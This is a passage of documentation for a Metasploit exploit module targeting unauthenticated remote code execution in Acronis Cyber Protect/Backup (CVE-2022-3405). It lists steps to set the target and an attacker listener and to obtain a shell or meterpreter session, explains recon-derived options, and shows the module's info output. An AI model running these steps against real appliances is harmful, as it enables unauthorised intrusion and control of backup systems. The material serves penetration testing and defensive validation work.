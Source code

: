 You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `modules/exploits/multi/acronis_cyber_protect_unauth_rce_cve_2022_3405`
- [ ] `set rhosts <ip-target>`
- [ ] `set lhost <attacker-ip>`
- [ ] `exploit`
- [ ] you should get a `shell` or `meterpreter` session depending on your settings.

## Options
These three options below are needed to target an specific endpoint registered on the Acronis Protect/Backup appliance.
This information can be collected using the recon module `auxiliary/gather/acronis_cyber_protect_machine_info_disclosure`.
This information is not mandatory for the module to run successfully.
You can also run this module standalone and it will try to exploit the first online endpoint matching your target
and payload settings configured at the module.
### HOSTID
HostId value collected from the recon module `auxiliary/gather/acronis_cyber_protect_machine_info_disclosure`.
### KEY
Key value collected from the recon module `auxiliary/gather/acronis_cyber_protect_machine_info_disclosure`.
### PARENTID
ParentId value collected from the recon module `auxiliary/gather/acronis_cyber_protect_machine_info_disclosure`.
### OUTPUT
You can use option `none` where no information is stored or printed to the console (default).
Choosing option `json` will store all information at a file in `json` format at the loot directory.
You can use this file in combination with `jq` for offline queries and processing.

## Scenarios
```msf
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > info

       Name: Acronis Cyber Protect/Backup remote code execution
     Module: exploit/multi/acronis_cyber_protect_unauth_rce_cve_2022_3405
   Platform: Unix, Linux, Windows
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2022-11-08

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Sandro Tolksdorf of usd AG.

Module side effects:
 artifacts-on-disk
 ioc-in-logs

Module stability:
 crash-safe

Module reliability:
 repeatable-session
```